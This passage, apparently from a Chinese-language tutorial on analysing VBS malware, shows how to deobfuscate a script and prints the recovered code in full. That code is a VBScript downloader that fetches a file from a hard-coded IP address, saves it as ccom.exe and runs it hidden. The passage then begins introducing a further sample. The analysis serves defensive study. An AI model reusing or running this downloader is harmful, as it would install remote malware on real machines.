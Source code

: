 直接将混淆的代码弹出，改后缀为vbs，运行

![1556440667305](assets/1556440667305.png)

就能直接看到未被混淆的代码，利用这种方法可以轻松解密整个文件，解密后代码如下：

```vbs
on error resume next
set oshell = wscript.createobject (Wscript.shell)
Set xPost = CreateObject(Microsoft.XMLHTTP)
xPost.Open GET,http://222.73.45.135:19999/rc/zj/gx.jpg,0
xPost.Send()
Set sGet = CreateObject(ADODB.Stream)
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "ccom.exe",2
oshell.RUN "ccom.exe",vbhide
```

可以看到这实际上是一个下载者，目的是从网页中下载一个exe。

这个是最简单的混淆，实际上vbs代码的混淆还会用到很多函数，比如replace()，split()等等，但是只要了解函数及其参数的含义，并把结果输出，就能解决大部分的混淆代码。

## vbs病毒实战分析

### 样本来源

下面我们实际分析一个vbs样本，样本来源自吾爱破解：<https://www.52pojie.cn/thread-80139-1-1.html>，已经有大神分析过了，我就偷个懒，跟着大佬的结果分析吧

![1556442084234](assets/1556442084234.png)
